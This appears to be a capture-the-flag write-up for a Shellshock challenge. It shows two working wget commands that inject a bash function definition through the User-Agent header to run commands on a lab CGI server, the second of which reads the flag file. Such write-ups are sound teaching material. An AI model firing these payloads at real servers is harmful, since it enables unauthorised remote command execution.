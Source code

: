 ---
# Shellshock

As the name suggests this is probably a shellshock vulnerability. You can test for it below


# Test
```language-bash
wget -U "() { test;};echo \"Content-type: text/html\"; echo; echo; pwd;" http://10.10.10.54:8000/cgi-bin/board
```

Basically the webserver is vulnerable to executing bash commands on the server. This means that we can do normal bash commands. No privilege escalation is needed for this challenge.

Basically we want to keep changing our working directory until we find some file named flag.
When we do all we do is execute the below script

```language-bash
wget -U "() { test;};echo \"Content-type: text/html\"; echo; echo; cd cgi-bin; /bin/cat flag ;" http://10.10.10.54:8000/cgi-bin/board
```

[test]: https://raw.githubusercontent.com/mpaxson/ctf/master/H3-2016/shellshock/vulncheck.png

[result]: https://raw.githubusercontent.com/mpaxson/ctf/master/H3-2016/shellshock/vulnresult.png
